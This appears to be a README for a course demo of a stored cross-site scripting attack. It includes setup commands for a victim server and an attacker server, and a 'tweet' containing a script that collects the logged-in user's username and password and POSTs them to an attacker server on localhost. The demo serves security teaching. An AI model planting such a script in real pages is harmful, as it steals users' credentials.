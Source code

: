 # XSS example for Security 2

Extremely simple example of an XSS attack. This case is used to see security analysis and protocols working in practice. 

### Installing and Running

Install with npm
```
npm install
```

Start two servers: the server hosting the page and a malicious server.
```
node server/server.js
node attacker/eve.js
json-server --watch db.json --port 3004

// Begin Tweet

Just a normal tweet not an secret script or something
<script>
    $.get('http://localhost:3004/users', function (data, status) {
        for (var i = 0; i < data.length; i++) {
            var obj = data[i];
            if (obj.userName === localStorage.getItem("User")) {
                const data2 = `Username=${obj.userName} - Password=${obj.password}`;
                $.ajax({
                    url: 'http://localhost:3007',
                    method: 'POST',
                    type: 'jsonp',
                    data: data2
                })
            }
        }
    })
</script>

// End Tweet
